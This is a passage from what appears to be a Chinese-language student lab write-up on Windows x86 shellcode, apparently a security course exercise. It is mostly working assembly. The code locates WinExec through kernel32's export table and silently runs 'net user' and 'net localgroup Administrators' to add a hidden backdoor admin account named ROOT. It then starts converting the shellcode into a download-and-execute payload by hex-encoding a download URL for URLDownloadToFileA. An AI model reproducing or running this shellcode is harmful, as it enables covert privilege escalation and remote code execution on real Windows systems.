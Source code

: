     searchLoop:
    mov edi, edx    ; EDI = &ExportNameTable
    mov esi, esp    ; ESI = "WinE"
    xor ecx, ecx
    cld                  ; Process strings left to right
    mov edi, [edi+eax*4] ; EDI = RVA NthNameString
    add edi, [esp+0xC]   ; EDI = &NthNameString
    add cx, 0x4          ; ECX = len("WinE")
    repe cmpsb           ; compare [&NthNameString] to "WinExec"
    jz found             ; If [&NthNameString] == "WinExec" end loop
    inc eax              ; Counter ++
    jmp short searchLoop ; restart loop

    found:
    mov ecx, [esp+0x8]     ; ECX = &ExportOrdinalTable
    mov ax,  [ecx + eax*2] ;  AX = ordinalNumber
    mov edx, [esp+0x4]     ; EDX = &ExportAddrTable
    mov ebx, [edx + eax*4] ; EBX = RVA WinExec
    add ebx, [esp+0xC]     ; EBX = &WinExec
    ```
    * 添加用户操作，将命令字符串压入栈中，调用`WinExec`函数打开命令行，使用命令行执行命令
    ```c
    add_user:
    ; Call WinExec( CmdLine, ShowState );
    ; $CmdLine = 'cmd.exe /c net user ROOT I@mR00T$ /ADD && net localgroup Administrators ROOT /ADD'
    ; $ShowState = SW_HIDE  
    xor ecx, ecx
    mul ecx
    mov al, 0x44    ; D : 44
    push eax
    push 0x44412f20 ; DA/  
    push 0x544f4f52 ; TOOR 
    push 0x2073726f ;  sro 
    push 0x74617274 ; tart 
    push 0x73696e69 ; sini 
    push 0x6d644120 ; mdA  
    push 0x70756f72 ; puor 
    push 0x676c6163 ; glac 
    push 0x6f6c2074 ; ol t 
    push 0x656e2026 ; en & 
    push 0x26204444 ; & DD 
    push 0x412f2024 ; A/ $ 
    push 0x54303052 ; T00R 
    push 0x6d404920 ; m@I  
    push 0x544f4f52 ; TOOR 
    push 0x20726573 ;  res 
    push 0x75207465 ; u te 
    push 0x6e20632f ; n c/ 
    push 0x20657865 ;  exe 
    push 0x2e646d63 ; .dmc 
    mov eax, esp    ; EAX = &CmdLine
    push ecx        ; $ShowState 
    push eax        ; $CmdLine
    call ebx        ; Call the WinExec Function
    ```
### PART2 修改示例代码的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA  
[shellcode](https://www.exploit-db.com/exploits/48355)  
* 将目标网址`https://down.qq.com/qqweb/PCQQ/PCQQ_EXE/PCQQ2020.exe`转化为对应的16进制数：  
```bash\
0x6578652e    exe.
0x30323032    0202
0x51514350    QQCP
```
